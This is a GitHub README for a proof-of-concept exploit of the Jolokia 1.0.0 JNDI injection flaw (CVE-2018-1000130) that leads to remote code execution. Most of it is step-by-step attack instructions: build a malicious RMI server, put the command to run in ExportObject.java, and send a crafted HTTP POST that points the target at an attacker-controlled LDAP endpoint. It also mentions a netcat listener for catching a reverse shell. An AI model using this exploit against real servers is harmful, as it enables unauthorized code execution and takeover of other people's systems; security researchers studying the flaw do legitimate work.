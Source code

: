 # Jolokia 1.0.0 JNDI Injection leading to RCE (CVE-2018-1000130)

Working POC code for Jolokia RCE

![POC Image](1.PNG)


## Steps to Reproduce:

1. Clone the current Repository.
2. Edit the java file `src/main/java/ExportObject.java` and enter the command that you wish to execute remotely.
3. Execute `mvn clean install` to build the jar file.
4. Execute `java -jar RMIServer-0.1.0.jar http://<server_ip>:port_1/#ExportObject port_2
` to create a malicious server. 
5. Send the following request to your target server.

```
POST /jolokia/ HTTP/1.1 
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
 
{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
        "url" : "service:jmx:rmi:///jndi/ldap://<server_ip>:port_2/jmxrmi"
    } 
}
```

This will execute the command that you have specified in the `ExportObject.java` file

Note that if you are trying to create a Remote shell, then you will have to open a Netcat Listner on your server at `port_3` specified in `ExportObject.java` file

**Note**: All the information provided in this REPO are for educational purposes only. The authors of the repository are no way responsible for any misuse of the information.

Reference:
https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html

